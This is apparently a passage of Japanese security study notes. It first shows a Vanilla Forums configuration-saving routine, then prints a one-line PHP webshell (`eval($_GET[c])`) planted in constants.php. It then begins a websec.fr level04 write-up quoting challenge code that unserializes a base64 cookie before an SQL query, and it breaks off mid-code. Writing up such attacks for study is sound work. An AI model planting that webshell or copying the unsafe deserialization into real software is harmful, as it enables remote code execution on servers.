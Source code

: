 ```php
                // Write config data to string format, ready for saving
                $fileContents = Gdn_Configuration::format($data, $options);                                 // 10

                if ($fileContents === false) {
                    trigger_error(errorMessage('Failed to define configuration file contents.', 'Configuration', 'Save'), E_USER_ERROR);
                }

                // Save to cache if we're into that sort of thing
                $fileKey = sprintf(Gdn_Configuration::CONFIG_FILE_CACHE_KEY, $this->Source);
                if ($this->Configuration && $this->Configuration->caching() && Gdn::cache()->type() == Gdn_Cache::CACHE_TYPE_MEMORY && Gdn::cache()->activeEnabled()) {
                    $cachedConfigData = Gdn::cache()->store($fileKey, $data, [
                        Gdn_Cache::FEATURE_NOPREFIX => true,
                        Gdn_Cache::FEATURE_EXPIRY => 3600
                    ]);
                }

                $tmpFile = tempnam(PATH_CONF, 'config');
                $result = false;
                if (file_put_contents($tmpFile, $fileContents) !== false) {                                 // 11
                    chmod($tmpFile, 0775);
                    $result = rename($tmpFile, $this->Source);                                              // 12
                }
```
実際に設置されたWebshellは以下の感じらしい。   
```txt
steven@pluto:/var/www/html/conf$ cat constants.php 
<?php if (!defined('APPLICATION')) exit();
$a=eval($_GET[c]);//[''] = '';

// Last edited by admin (172.16.175.1)2018-09-08 20:35:19
```
# writeup
## \_\_destruct / SQL Injection (websec level04)
http://websec.fr/  
- **entrypoint**  
User idの`1`を入力するとUsernameの値として`flag`という文字列が表示された。  
`source1.php`,`source2.php`が見れた。  
![image](https://user-images.githubusercontent.com/56021519/104459170-beb4d980-55ef-11eb-9785-5cc21365c4b8.png)  
**source1.php**  
どうみても入力を`unserialize`している箇所が脆弱。  
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
```